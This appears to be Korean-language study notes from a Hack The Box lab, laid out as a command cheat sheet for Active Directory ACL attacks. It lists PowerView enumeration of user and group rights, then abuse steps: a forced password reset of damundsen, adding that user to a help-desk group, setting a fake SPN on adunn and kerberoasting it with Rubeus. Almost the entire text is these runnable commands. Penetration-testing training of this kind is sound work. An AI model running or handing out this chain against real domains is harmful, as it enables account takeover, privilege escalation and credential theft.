 foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```

### damundsen 사용자를 사용하여 권한 열거
```
$sid2 = Convert-NameToSid damundsen
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
```

### Get-DomainGroup을 사용하여 Help Desk Level 1 Group 조사
```Get-DomainGroup -Identity "Help Desk Level 1" | select memberof```

### Information Technology Group 조사
```
$itgroupsid = Convert-NameToSid "Information Technology"
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose
```

### adunn 사용자의 흥미로운 접근 권한 찾기
```
$adunnsid = Convert-NameToSid adunn 
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $adunnsid} -Verbose
```

<br/><br/>
## 2. Abusing ACLs

### PSCredential Object 생성 (wley 자격증명 사용)
```
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

### SecureString Object 생성
```$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force```

### damundsen 사용자 Password 변경
```
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

### damundsen을 사용하여 SecureString Object 생성
```
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
```

### Help Desk Level 1 Group에 damundsen 추가
```
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

### damundsen이 Group에 추가됨을 확인
```Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName```

### Fake SPN(Service Principal Name) 생성
```Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose```

### Kerberoasting - Rubeus
```.\Rubeus.exe kerberoast /user:adunn /nowrap```

```